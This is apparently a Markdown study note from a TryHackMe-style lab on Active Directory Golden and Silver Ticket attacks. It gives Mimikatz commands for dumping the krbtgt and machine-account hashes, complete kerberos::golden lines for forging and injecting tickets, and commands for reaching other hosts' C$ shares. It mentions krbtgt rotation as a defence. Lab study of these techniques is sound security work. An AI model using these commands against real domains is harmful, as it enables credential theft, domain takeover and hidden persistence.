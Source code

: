 In the context of Windows Active Directory (AD) attacks, Golden Tickets and Silver Tickets are two powerful attack techniques that leverage Kerberos authentication to gain unauthorized access and maintain persistence in a domain.
Golden Tickets

> What is a Golden Ticket?

A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user, including domain administrators, in the AD environment. This ticket is generated using the Kerberos service account's password hash of **krbtgt** account.

> How it Works?

The krbtgt account is a special account in AD that is responsible for encrypting all TGTs. If an attacker compromises a domain controller or otherwise gains access to the krbtgt account hash, they can create a Golden Ticket. With this ticket, the attacker can **request access to any service within the domain**, essentially having unrestricted access.<br>
To perform this attack we need the following:

1- The krbtgt account hash.
```
lsadump::lsa /patch
```
2- The domain name.
```
Get-ADDomain
```
3- the domain SID.
```
(Get-ADDomain).DomainSID
```
Now that we have all the required information, we can relaunch Mimikatz:
```
mimikatz # kerberos::golden /admin:AnyName /domain:<DomainName> /id:500 /sid:<DomainSID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
> /admin - The username we want to impersonate. This does not have to be a valid user.<br>
> /domain - The FQDN of the domain we want to generate the ticket for.<br>
> /id -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.<br>
> /sid -The SID of the domain we want to generate the ticket for.<br>
> /krbtgt -The NTLM hash of the KRBTGT account.<br>
> /endin - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)<br>
> /renewmax -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)<br>
> /ptt - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.<br>

Even if the golden ticket has an incredibly long time, the blue team can still defend against this by simply rotating the KRBTGT password twice.<br>

**Silver Tickets**

> What is a Silver Ticket?

A Silver Ticket is a forged Kerberos Ticket Granting Service (TGS) ticket that allows an attacker to **access a specific service** or resource on a server without needing to interact with the domain controller.

> How it Works:

Silver Tickets are created using the password hash of a service account (such as HTTP, CIFS, etc.). The attacker forges a service ticket that grants them access to the specific service tied to that account. This ticket is then presented directly to the service, bypassing the need to go through the domain controller.

```
mimikatz # kerberos::golden /admin:AnyName /domain:<DomainName> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
WE can get the server hostname and the NTML hash of the machine account of the target using **mimikatz**:
```
lsadump::lsa /patch
```
> The $ indicates that it is a machine account.

We can verify that the silver ticket is working by running the dir command against the target machine (ex: THMserver1):
```
dir \\THMserver1.<DomainName>\c$\
```



**Use the Golden Ticket to access other machine **


This will open a new command prompt with elevated privileges to all machines:
```
misc::cmd
```
You will now have another command prompt with access to all other machines on the network:

```
dir \\desktop-1\c$
```



